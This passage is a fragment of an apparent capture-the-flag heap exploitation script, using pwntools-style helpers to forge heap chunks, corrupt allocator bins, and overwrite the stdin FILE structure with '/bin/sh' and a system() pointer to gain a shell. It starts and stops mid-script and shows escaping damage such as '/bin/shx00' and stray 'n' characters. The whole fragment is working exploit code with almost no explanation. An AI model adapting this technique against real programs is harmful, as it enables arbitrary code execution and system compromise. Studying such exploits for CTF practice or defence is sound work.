```

info("libc base: 0x%x", libc_base)
stdin   = libc_base + 0x292200
binmap  = libc_base + 0x292ac0
brk     = libc_base + 0x295050
bin     = libc_base + 0x292e40
system  = libc_base + 0x42688

# 1. construct fake chunks
alloc(0x10) #1
alloc(0x10) #2, prevent consolidation
alloc(0x10) #3
alloc(0x10) #4, prevent consolidation
alloc(0x10) #5
alloc(0x10) #6, prevent consolidation
alloc(0x10) #7
alloc(0x10) #8, prevent consolidation

free(1)
free(3)

payload  = 'X' * 0x10
payload += p64(0x21) * 2 + 'X' * 0x10
payload += p64(0x21) + p64(0x20) + p64(stdin - 0x10) * 2
payload += p8(0x20)
payload += 'n'

alloc(0x10, payload, 'Y')   #1
alloc(0x10)                 #3
free(1) # set as non-empty bin

edit(3, p64(binmap - 0x20) * 2)
alloc(0x10)             #1
free(5) # set as non-empty bin

edit(3, p64(brk - 0x10) * 2)
alloc(0x10)             #5
free(7) # set as non-empty bin

# 2. corrupt bin head and get arbitrary pointers
edit(3, p64(bin - 0x10) + p64(stdin - 0x10))
alloc(0x10) #7
alloc(0x50) #9

edit(3, p64(bin - 0x10) + p64(brk - 0x10))
alloc(0x10) #10
alloc(0x50) #11

edit(3, p64(bin - 0x10) + p64(binmap - 0x20))
alloc(0x10) #12
alloc(0x50) #13

# 3. corrupt stdin, binmap and brk
payload  = "/bin/shx00"    # stdin-&gt;flags
payload += 'X' * 0x20
payload += p64(0xdeadbeef)  # stdin-&gt;wpos
payload += 'X' * 8
payload += p64(0xbeefdead)  # stdin-&gt;wbase
payload += 'X' * 8
payload += p64(system)      # stdin-&gt;write

edit(9, payload) # stdin
edit(11, p64(0xbadbeef - 0x20) + 'n')  # brk
```